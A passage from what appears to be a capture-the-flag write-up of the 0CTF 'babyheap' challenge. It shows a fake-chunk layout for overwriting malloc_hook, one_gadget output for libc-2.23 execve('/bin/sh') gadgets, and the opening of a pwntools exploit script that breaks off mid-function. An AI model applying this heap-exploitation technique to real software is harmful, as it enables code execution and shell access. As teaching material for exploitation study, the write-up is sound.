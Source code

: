 ```
0x10:    1
0x60:    2
0x60:    4
0xf0 & 0x60:    (5 & 0) (these two chunks begin at exactly the same spoit, and have the same ptr) content = fake chunk address
0x30:    3
0x60:    6    fake chunk for malloc_hook
```

Now that we have a fake chunk, we can write over the malloc_hook. The value we will write over the malloc hook will be a ROP Gadget that due to our setup, we can just call that one address and get a shell. For this we will be using the tool One_Gadget from https://github.com/david942j/one_gadget to "One Shot" the program with a single ROP Gadget from libc that will give us a shell. To use this tool, you just need to point it at the libc file you are using (we will be using the gadget at `0x4526a`):

```
one_gadget libc-2.23.so
0x45216    execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a    execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0274    execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1117    execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```


## Exploit

Putting it all together, we have the following exploit. Also this exploit will only work against libc version `libc-2.23.so`. If you are running an OS with a different libc version, you can just used `LD_PRELOAD` to swap out the libc version. Also I ran this exploit on `Ubuntu 16.04.6` sine Ubuntu 18.04 doesn't work well with this libc version (at least when I try this):

```
# Import pwntools
from pwn import *

# First establish the target process and libc file
target = process('./0ctfbabyheap', env={"LD_PRELOAD":"./libc-2.23.so"}) # The ld_preload is used to switch out the libc version we are using
#gdb.attach(target)
elf = ELF('libc-2.23.so')

# Establish the functions to interact with the program
def alloc(size):
    target.recvuntil("Command: ")
    target.sendline("1")
    target.recvuntil("Size: ")
    target.sendline(str(size))

def fill(index, size, content):
    target.recvuntil("Command: ")
    target.sendline("2")
    target.recvuntil("Index: ")
    target.sendline(str(index))
```